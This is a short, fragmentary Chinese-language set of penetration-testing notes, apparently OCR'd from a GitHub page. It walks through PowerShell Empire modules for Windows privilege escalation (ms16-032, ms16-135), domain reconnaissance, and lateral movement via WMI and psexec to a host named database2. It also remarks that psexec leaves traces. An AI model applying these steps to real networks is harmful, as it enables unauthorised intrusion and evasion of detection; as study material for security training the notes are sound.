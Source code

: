 set Listener test

`用户名的名字必须是存在的` 设置dailytime

溢出提权漏洞

powershell/privesc/ms16-032

powershell/privesc/ms16-135

# 三、域内渗透

```
shell whoami /groups 查看权限
用基本的命令查询本地的信息
sysinfo
whoami
info
arp扫描
situational_awareness/network/arpscan
查找本地管理员
situational_awareness/network/powerview/find_localadmin_access
moonsec这个用户是否是域内某一台主机的本地管理员


查看内网的主机，查找那台机器是本地管理员，进行本地的端口和arp扫描，查询内网的受信任关系
```

确定是否能访问 database2的c盘

![image-20201118235013869](https://i.loli.net/2020/12/27/uqUnw2z8pRsPgVX.png)

查找域控

situational_awareness/network/powerview/get_domain_controller

![image-20201118235023811](https://i.loli.net/2020/12/27/LpYmTa57rRfZMHv.png)

会话注入

lateral_movement/invoke_wmi

lateral_movement/invoke_psexec

通过invoke_wmi 或者 psexe模块 拿到database2的权限

lateral_movement/invoke_wmi

设置好监听器和计算机名用execute执行

![image-20201119000306908](https://i.loli.net/2020/12/27/Es76i8A5mGJjQDt.png)

`invoke_wmi 系统自带`

`psexec 留下记录`

`lateral_movement/invoke_psexec`

